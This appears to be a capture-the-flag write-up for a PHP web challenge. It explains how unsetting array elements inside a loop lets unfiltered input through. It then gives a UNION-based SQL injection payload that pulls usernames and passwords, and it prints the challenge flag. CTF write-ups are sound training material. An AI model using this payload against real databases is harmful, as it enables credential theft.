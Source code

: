 ```yaml
---
layout: default
title: level13
---
```


Another SQLi challenge, YAY :D

Here we can see this loop
```php
$tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }
```
If we will supply the input: `1,0,0,0`, each time `i` is getting larger and `count($tmp)` get decreased! so, when `i` will be `3`, count will be too `3`, after deleting two `0`, and will exit the loop, and we will remain with `1,0`!

Same, we could have supply something like: 
`1,0,0,OurSubQuery:D`, and we will remain with `1,OurSubQuery:D`

So, let's build our payload, when this is the query:
```php
$query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";
```

We need to close `))`, and then injecting `Union select user_id, user_name, user_password from users--`.

And this is our payload:
`1,0,0,0,0))+Union+select+user_id,user_name,user_password+from+users--`

![final FLAG](./images/level13.png)

**Flag:** ***`WEBSEC{SQL_injection_in_your_cms,_made_simple}`*** 
